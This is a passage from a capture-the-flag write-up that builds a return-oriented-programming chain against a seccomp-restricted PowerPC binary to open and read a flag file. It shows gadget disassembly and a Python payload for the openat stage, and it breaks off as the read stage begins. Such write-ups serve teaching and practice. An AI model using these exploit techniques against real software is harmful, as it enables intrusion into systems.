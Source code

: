 Now we can start with writing our ROP payload. If we look at the seccomp filters in the `init()` function at the start of `main()` we remember that only the `openat`, `read`, `wriite` and `clock_nanosleep` syscalls are allowed, limiting what payload can be created. Notable we will need to write a `openat -> read -> write` payload, so let's get started.

#### 1. Stage openat

In our first stage we will open our target file (in this case `./flag`), this translate to the following function call `open('./flag', O_RDONLY)` (`open` uses the `openat` syscall, not `open`), which means we will need control over the registers `r3` (first argument) and `r4` (second argument). 

For this we will use the following gadget:

```assembly
10022174 28 00 81 e8     ld         r4, 0x18(r1) ; r4  = *(r1+0x18)
10022178 20 00 61 e8     ld         r3, 0x20(r1) ; r3  = *(r1+0x20)
1002217c a6 03 89 7d     mtspr      CTR,r12      ; ctr = r12
10022180 21 04 80 4e     bctrl                   ; branch to ctr and set lr
```

So this gadgets basically makes us jump to r12, but we never set r12, so where do we jump?

Actually r12 is still set to our `rover.code` function from earlier, so we basically jump to our old stack pivot gadget used in the one byte BOF.

```assembly
; opt_execute_cmd
...
1000159c a6 03 89 7d     mtspr      CTR,r12 ; ctr = r12
100015a0 21 04 80 4e     bctrl              ; branch to ctr and set lr
```

Using these gadgets we can complete our first stage and open the flag to fd `3`

```python
# first stage open('flag', O_RDONLY)
payload = flat(
  PAYLOAD_START, # r31
  pad(b'./flag\0', 0x10), # file to open
  0x10022174, # set r3 r4
  cto('caaa'),
  PAYLOAD_START+8, #r3 (path)
  cyc(cfd('eaaa')-(cfd('caaa')+8)),
  0, #r4 (O_RDONLY)
  cyc(cfd('laab')-(cfd('eaaa')+8)),
  exe.sym.open+0x18 # skip prologue
)
```

You may notice that we don't use `exe.sym.open` but `exe.sym.open+0x18` instead. This is because the prologue and epilogue of the function actually create an infinite loop, because the function tries to return to `lr`, but `lr` points to the our gadget making us loop.

> Note: we don't directly jump to open using `ctr` but jump to `0x10000e64` set in `r12`, in this gadget we pivot using `lr`, therefore we loop.

#### 2.Stage read
